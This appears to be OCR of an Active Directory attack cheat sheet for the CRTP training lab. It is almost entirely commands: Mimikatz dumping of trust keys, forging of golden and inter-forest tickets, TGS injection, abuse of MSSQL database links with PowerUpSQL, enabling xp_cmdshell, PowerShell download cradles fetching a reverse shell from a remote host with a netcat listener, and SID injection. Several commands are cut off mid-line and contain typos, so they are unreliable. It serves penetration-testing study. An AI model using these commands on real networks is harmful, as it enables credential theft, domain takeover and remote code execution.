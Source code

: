 ```powershell
Priv Esc - Across Forest using Trust Tickets
# Requeire the trust key for the inter-forest trust.
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
# Or
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
# An inter-forest TGT can be forged
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid: /rc4:af0686cc0ca8f04df42210c9a
CRTP 20
# Request TGS to the a service in the furest domain
asktgs.exe C:\trust_forest_tht.kirbi CIFS/forest domain name
# Inject the TGS
kirbikator.exe lsa .\<path and TGS file name>
# check if avilable
klist
Trust Abuse - MSSQL Server
# For MSSQL and PowerShell hackery, use PowerUpSQL
https://github.com/NetSPI/PowerUpSQL
# start with enumerating SQL servers in the domain and if studentx has privileges to connect to any
# of them
Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.psd1
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose
# Check Accessibility
Get-SQLConnectionTestThereaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
# Gather Information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
# Searching Database Links
# Look for links to remote servers
Get-SQLServerLink -Instance dcorp-mssql -Verbose
# check the "databaselinklocation"
# Enumerating Database Links
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose
# If xp_cmdshell is enabled
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'whoami'"
# Let’s try to execute a PowerShell download execute cradle to execute a PowerShell reverse shell on the
# eu-sql instance. Remember to start a listener:
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.
# On the listener:
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
Executing Commands
# On the target mssql server, enable xp_cmdshell
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "EU-SQL.EU.EUROCORP.LOCAL"
# after enable use the PowerUpSQL script the execute command
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" | ft
# load reverse tcp shell on sql server
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(
# HeidiSQL client
# enumerate linked databases on dcorp-mssql:
select * from master..sysservers
# enumerate further links from dcorpsql1
select * from openquery("DCORP-SQL1",'select * from master..sysservers')
# another openquery which leads us to dcorp-mgmt:
select * from openquery("DCORP-SQL1",'select * from openquery("DCORPMGMT",''select * from master..sysservers'')')
SID Injection Attack
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /
```